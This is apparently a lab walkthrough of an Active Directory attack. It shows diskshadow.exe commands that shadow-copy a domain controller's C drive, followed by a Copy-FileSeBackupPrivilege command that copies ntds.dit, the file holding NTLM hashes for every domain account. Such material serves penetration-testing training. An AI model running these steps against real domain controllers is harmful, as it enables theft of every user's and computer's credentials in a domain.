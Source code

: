 **Attacking a Domain Controller - Copying NTDS.dit**

This group can login locally to DC and we can try to get NTDS.dit which stores the NTLM hashes for all computers and users in the domain.

NTDS.dit is locked by default use the following utility to create a copy of C drive and expose it as E drive. Then we can read the files since the system won't be using the copy

{% embed url="https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow" %}
diskshadow.exe
{% endembed %}

```powershell-session
PS C:\htb> diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit

PS C:\htb> dir E:


    Directory: E:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         5/6/2021   1:00 PM                Confidential
d-----        9/15/2018  12:19 AM                PerfLogs
d-r---        3/24/2021   6:20 PM                Program Files
d-----        9/15/2018   2:06 AM                Program Files (x86)
d-----         5/6/2021   1:05 PM                Tools
d-r---         5/6/2021  12:51 PM                Users
d-----        3/24/2021   6:38 PM                Windows
```

**Copying NTDS.dit Locally**

```powershell-session
PS C:\htb> Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit

Copied 16777216 bytes
```
